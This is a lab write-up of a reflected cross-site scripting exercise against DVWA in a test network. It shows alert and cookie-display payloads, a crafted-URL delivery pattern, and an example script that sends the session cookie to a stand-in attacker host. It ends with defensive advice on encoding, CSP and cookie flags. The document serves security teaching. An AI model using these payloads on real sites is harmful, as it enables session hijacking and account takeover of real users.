


# Exercise 11 — Cross-Site Scripting (XSS) Attack (DVWA)

**Date:** 20/03/2026
**Category:** Web Attacks
**Tools:** DVWA, Firefox
**Attacker:** Kali Linux — 192.168.56.102
**Target:** Metasploitable2 — 192.168.1.100 (DVWA on port 80)

---

## Objective
Exploit a reflected XSS vulnerability in DVWA to execute arbitrary
JavaScript in the browser, demonstrate session cookie theft, and
explain how XSS enables session hijacking without needing a
victim's password.

---

## Background
Cross-Site Scripting (XSS) occurs when a web application includes
unvalidated user input in its output, allowing an attacker to inject
client-side scripts that execute in the victim's browser. Unlike
SQL injection which targets the server, XSS targets the user.

Reflected XSS is the simplest form — the malicious script is
reflected off the web server in an error message, search result,
or any response that includes input submitted to the server.

**OWASP Top 10:** XSS is listed under A03:2021 — Injection.

---

## Part A — Reflected Script Execution

DVWA's XSS (Reflected) module presents a name input field. A
basic script injection payload was submitted:
```
<script>alert('XSS')</script>
```

**How it works:** The application reflects the input back in the
HTML response without sanitisation. The browser interprets the
`<script>` tags as valid JavaScript and executes the `alert()`
function.

**Result:** Browser popup appeared with the message `XSS` —
confirming arbitrary JavaScript execution in the browser context.

### Screenshot — XSS Alert Popup


---

## Part B — Session Cookie Theft

A more impactful payload was used to expose the session cookie:
```
<script>alert(document.cookie)</script>
```

**How it works:** `document.cookie` is a JavaScript property
that returns all cookies associated with the current page.
By passing it to `alert()`, the cookie value is displayed in
the popup.

**Result:** Session cookie exposed in the popup:
```
security=low; PHPSESSID=351cd907933ac531e82a39bd89e928d4
```

### Screenshot — Session Cookie Exposed via XSS


---

## Real-World Attack Scenario

In a real attack, the attacker would not use `alert()` — they
would silently send the cookie to their own server:
```javascript
<script>
document.location='http://attacker.com/steal?c='+document.cookie
</script>
```

The victim would see nothing while their session cookie was
transmitted to the attacker. The attacker then uses the stolen
cookie to impersonate the victim — logging in as them without
ever knowing their password. This is **session hijacking**.

The attack is delivered by sending the victim a crafted URL
containing the payload:
```
http://192.168.1.100/dvwa/vulnerabilities/xss_r/?name=<script>...</script>
```

---

## Attack Chain Summary
```
Attacker crafts malicious URL with XSS payload
    → Victim clicks link
        → Application reflects input without sanitisation
            → Browser executes injected JavaScript
                → Cookie sent to attacker's server
                    → Attacker uses cookie to hijack session
                        → Full account takeover without password
```

---

## Real-World Relevance
XSS has been used in major attacks including the British Airways
breach (2018) and numerous online banking attacks. It is
particularly dangerous in authenticated contexts — stealing
a session cookie bypasses MFA entirely since the session was
already authenticated.

**Why cookies are sensitive:**
- `PHPSESSID` is the server-side session identifier
- Possession of this cookie = authenticated session
- No username or password required
- Cookie theft bypasses two-factor authentication

---

## Recommendation
- Encode all user-supplied output — convert `<`, `>`, `"`, `'`
  to HTML entities before rendering
- Implement Content Security Policy (CSP) headers to restrict
  which scripts can execute
- Set cookies with `HttpOnly` flag — prevents JavaScript from
  accessing cookies via `document.cookie`
- Set cookies with `Secure` flag — ensures cookies are only
  sent over HTTPS
- Use `SameSite=Strict` cookie attribute to prevent
  cross-origin cookie theft
